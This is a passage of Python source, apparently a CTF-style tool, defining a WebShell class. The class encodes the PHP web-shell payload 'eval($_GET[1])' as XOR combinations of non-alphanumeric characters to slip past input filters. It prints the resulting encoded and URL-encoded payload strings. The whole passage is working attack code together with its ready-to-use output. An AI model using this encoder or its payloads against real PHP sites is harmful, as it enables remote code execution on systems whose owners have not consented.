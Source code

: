 ```
                    temp = self.chars[i] + self.chars[j] + self.chars[k]
                    result = chr(ord(self.chars[i]) ^ ord(self.chars[j]) ^ ord(self.chars[k]))
                    dic[temp] = result
        return dic

    def get_shell(self):
        str1 = ''
        str2 = ''
        str3 = ''
        for i in range(0, len(self.payload)):
            for j in self.dic:
                if self.dic[j] == self.payload[i]:
                    str1 = str1 + j[0]
                    str2 = str2 + j[1]
                    str3 = str3 + j[2]
                    break

        result = '\'' + str1 + '\'' + '^' + '\'' + str2 + '\'' + '^' + '\'' + str3 + '\''
        return result

    def url_encode_shell(self):
        return urllib.parse.quote(self.get_shell())

    def url_decode_shell(self):
        return urllib.parse.unquote(self.url_encode_shell())


if __name__ == '__main__':
    chars = r"0123456789+-*/().~^|&"
    payload = r"eval($_GET[1])"
    webShell = WebShell(chars, payload)
    result = webShell.get_shell()
    print(result)
    print(webShell.url_encode_shell())
    print(webShell.url_decode_shell())

"""
'00040000020000'^'+8-~021)+85030'^'~~|&(&^^^^^1^)'
%2700040000020000%27%5E%27%2B8-~021%29%2B85030%27%5E%27~~%7C%26%28%26%5E%5E%5E%5E%5E1%5E%29%27
'00040000020000'^'+8-~021)+85030'^'~~|&(&^^^^^1^)'
"""
```

